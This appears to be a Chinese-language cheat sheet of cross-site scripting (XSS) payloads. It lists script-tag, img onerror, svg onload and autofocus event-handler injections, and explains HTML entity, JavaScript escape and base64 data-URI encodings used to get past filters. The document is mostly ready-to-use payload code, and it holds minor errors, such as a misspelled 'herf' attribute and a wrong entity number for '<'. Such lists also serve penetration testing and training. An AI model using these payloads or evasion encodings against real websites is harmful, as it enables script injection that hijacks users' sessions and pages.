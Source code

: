## XSS常见Payload
```
<script>alert(/xss/);</script>
<script>alert(/xss/)//
<script>alert("xss");;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;;</script>//用分号，也可以分号+空格（回车一起使用）
<img src=1 onmouseover=alert(1)>
<a herf=1 onload=alert(1)>nmask</a>
<script>window.a==1?1:prompt(a=1)</script>
<script>a=prompt;a(1)</script>
<img src=0 onerror=confirm('1')>
```

# XSS编码
 - HTML实体编码
   - 当我们使用某些特殊字符例如`< >`时，浏览器会误以为是标签的开始或结束。那么HTML实体编码就是为了区别它们。
   - `<`的实体名称为`&lt; `，但是某些特殊符号没有实体名称，所以也可以用实体编号(`&#字符十进制数`)来表示。
   - `<`的实体编号为`&#62;`
   - 注意：实体编码后面的数字可以是`十进制`，也可以是`16进制`。
   - 实体编码最后的分号可以不加。`&#62`
   - 实体编码数字前面可以加多个0。`&#062`
   - 特殊新增的HTML5实体
     - `&colon; => [冒号]`
     - `&NewLine; => [换行]`
 - URL编码
 - JavaScript编码
   - JavaScript允许直接用码点表示Unicode字符，写法是"反斜杠+u+码点"。(码点就是16进制数字)
   - `<`的码点表示法是`\u003c`
   - 也直接通过eval执行字符串八进制和十六进制两种编码方式，其中八进制用`\56`表示，十六进制用`\x5c`表示。
 - BASE64编码
   - `<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">click</a>`

浏览器解析顺序HTML->URL->JavaScript


```
<img src=x onerror=alert("xss") >
标签名和属性名之间可以用[09,0A,0C,0D,20,2F]来代替。浏览器解析器中词法分析器会跳过空白跟换行之类的无效字符。
但是属性和属性之间的空格是不可以用2F来代替的。(2F == /)
属性值部分，可以用 HTML实体编码。




```
# XSS触发点

## 利用事件触发
```
<svg/onload=prompt(1);>
<marquee/onstart=confirm(2)>/
<body onload=prompt(1);>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video><source onerror="javascript:alert(1)">
```
